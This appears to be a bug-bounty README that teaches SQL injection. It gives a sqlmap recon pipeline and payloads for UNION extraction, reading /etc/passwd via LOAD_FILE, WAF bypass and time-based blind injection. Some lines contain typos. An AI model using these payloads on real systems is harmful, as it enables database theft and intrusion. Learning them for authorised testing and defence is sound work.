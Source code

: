 # SQL Injection
Here are some quick methods to detect the SQL Injection vulnerability, though the methods are not limited. There are various tricks and tools.

# Methods To Find Sqli

## 1. Using Burpsuite :
```
  1. Capture the request using burpsuite.
  2. Send the request to burp scanner.
  3. Proceed with active scan.
  4. Once the scan is finished, look for SQL vulnerability that has been detected.
  5. Manually try SQL injection payloads.
  6. Use SQLMAP to speed up the process.
```
## 2. Using waybackurls and other bunch of tools :
```
  1. sublist3r -d target | tee -a domains (you can use other tools like findomain, assetfinder, etc.)
  2. cat domains | httpx | tee -a alive
  3. cat alive | waybackurls | tee -a urls
  4. gf sqli urls >> sqli
  5. sqlmap -m sqli --dbs --batch
  6. use tamper scripts
```
## 3. Using heuristic scan to get hidden parameters :
```
  1. Use subdomain enumeration tools on the domain.
  2. Gather all urls using hakcrawler, waybackurls, gau for the domain and subdomains.
  3. You can use the same method described above in 2nd point.
  4. Use Arjun to scan for the hidden params in the urls. 
  5. Use --urls flag to include all urls.
  6. Check the params as https://domain.com?<hiddenparam>=<value>
  7. Send request to file and process it through sqlmap.
```
## 4. Error generation with untrusted input or special characters :
```
  1. Submit single quote character ' & look for errors.
  2. Submit SQL specific query.
  3. Submit Boolean conditions such as or 1=1 and or 1=0, and looking application's response.
  4. Submit certain payloads that results in time delay.
```
# Post-Methods
## 1. Finding total number of columns with order by or group by or having :
```
  Submit a series of ORDER BY clause such as 
	  
    ' ORDER BY 1 --
	  ' ORDER BY 2 --
    ' ORDER BY 3 --
    
    and incrementing specified column index until an error occurs.
```
## 2. Finding vulnerable columns with union operator :
```
  Submit a series of UNION SELECT payloads.
  
	  ' UNION SELECT NULL --
    ' UNION SELECT NULL, NULL --
    ' UNION SELECT NULL, NULL, NULL --
    
  (Using NULL maximizes the probability that the payload will succeed. NULL can be converted to every commonly used data type.)
```
* To go for the methods in more detail, go through portswigger site.
  
  https://portswigger.net/web-security/sql-injection/union-attacks

## 3. Extracting basic information like database(), version(), user(), UUID() with concat() or group_concat()

### 1. Database version
```
    Oracle 			  SELECT banner FROM v$version
		       		  SELECT version FROM v$instance
    
    Microsoft 			  SELECT @@version
    
    PostgreSQL 			  SELECT version()
    
    MySQL 			  SELECT @@version
```
### 2. Database contents
```
    Oracle        SELECT * FROM all_tables
	          SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
    
    Microsoft 	  SELECT * FROM information_schema.tables
                  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
    
    PostgreSQL 	  SELECT * FROM information_schema.tables
                  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

    MySQL         SELECT * FROM information_schema.tables
                  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
### 3. Shows version, user and database name
```
   ' AND 1=2 UNION ALL SELECT concat_ws(0x3a,version(),user(),database())
```
### 4. Using group_concat() function, used to concat all the rows of the returned results.
```  
   ' union all select 1,2,3,group_concat(table_name),5,6 from information_schema.tables where table_schema=database()–
```
## 4. Accessing system files with load_file(). and advance exploitation afterwards :
```
   ' UNION ALL SELECT LOAD_FILE ('/ etc / passwd')
```
## 5. Bypassing WAF :

### 1. Using Null byte before SQL query.
```
    %00' UNION SELECT password FROM Users WHERE username-'xyz'--
```
### 2. Using SQL inline comment sequence.
```
    '/**/UN/**/ION/**/SEL/**/ECT/**/password/**/FR/OM/**/Users/**/WHE/**/RE/**/username/**/LIKE/**/'xyz'-- 
```
### 3. URL encoding
```      
      for example :
    / URL encoded to %2f
    * URL encoded to %2a

    Can also use double encoding, if single encoding doesn't works. Use hex encoding if the rest doesn't work.
```
### 4. Changing Cases (uppercase/lowercase)
* For more step wise detailed methods, go through the link below.

  https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF
### 5. Use SQLMAP tamper scripts. It helps bypass WAF/IDS/IPS.
* 1. Use Atlas. It helps suggesting tamper scripts for SQLMAP.
     
     https://github.com/m4ll0k/Atlas
* 2. JHaddix post on SQLMAP tamper scripts.
     
     https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423
        
## 6. Time Delays :
```
      Oracle 	      dbms_pipe.receive_message(('a'),10)
      
      Microsoft 	  WAITFOR DELAY '0:0:10'
      
      PostgreSQL 	  SELECT pg_sleep(10)
      
      MySQL 	      SELECT sleep(10) 
```      
## 7. Conditional Delays :
```
      Oracle 	      SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
      
      Microsoft 	  IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
      
      PostgreSQL 	  SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
      
      MySQL 	      SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a') 
```      
# Resources and tools that will help gain an upper hand on finding bugs :
* Portswigger SQL Injection cheat sheet - https://portswigger.net/web-security/sql-injection/cheat-sheet
* HTTPX - https://github.com/encode/httpx
* GF patterns - https://github.com/1ndianl33t/Gf-Patterns
* GF (Tomnomnom)- https://github.com/tomnomnom/gf
* We can also use gau with waybackurls to fetch all urls.
* Waybackurls - https://github.com/tomnomnom/waybackurls
* Gau - https://github.com/lc/gau
* Arjun - https://github.com/s0md3v/Arjun
* Hakcrawler - https://github.com/hakluke/hakrawler


###Author :

*[@xhan1x](https://twitter.com/xhan1x)
